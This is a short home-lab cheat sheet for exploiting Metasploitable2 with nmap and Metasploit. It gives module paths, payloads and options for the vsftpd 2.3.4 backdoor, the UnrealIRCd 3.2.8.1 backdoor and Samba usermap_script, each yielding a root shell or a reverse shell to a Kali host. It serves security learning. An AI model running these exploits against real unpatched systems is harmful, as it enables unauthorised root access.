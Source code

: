 ## 🧠 Home Lab Cheat Sheet

### Target: Metasploitable2  
> IP: `192.168.138.130` (your lab — change if needed)

---

### How to Identify Services
```bash
nmap -sV 192.168.138.130
```
Look for open ports + service versions to match known exploits.

---

### Common Metasploit Steps
```bash
use <exploit/module/path>
set RHOST <target IP>
set RPORT <target port>
set LHOST <Kali IP>
set PAYLOAD <payload>     # if needed
run
```

---

### PORT 21 – FTP
- **Service:** vsftpd 2.3.4  
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
- **Payload:** None needed (built-in command shell)  
- **Notes:**
  - Opens a root shell backdoor on port 6200
  - Triggered by logging in with a `:)` in the username

---

### PORT 6667 – IRC
- **Service:** UnrealIRCd 3.2.8.1  
- **Exploit Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`  
- **Payload:** `cmd/unix/reverse`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 6667
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)

---

### PORT 445 – Samba
- **Service:** Samba
- **Exploit Module:** `exploit/unix/samba/usermap_script`  
- **Payload:** `cmd/unix/reverse_netcat`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 445
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  

---

### Tips
- Always `nmap` first to find the right service version.
- Use `search <service/version>` in Metasploit to find modules.
- If it says “no payload selected,” choose one based on OS.
- If you get "no session created," check:
  - LHOST is correct
  - Firewall is off
  - Port actually open

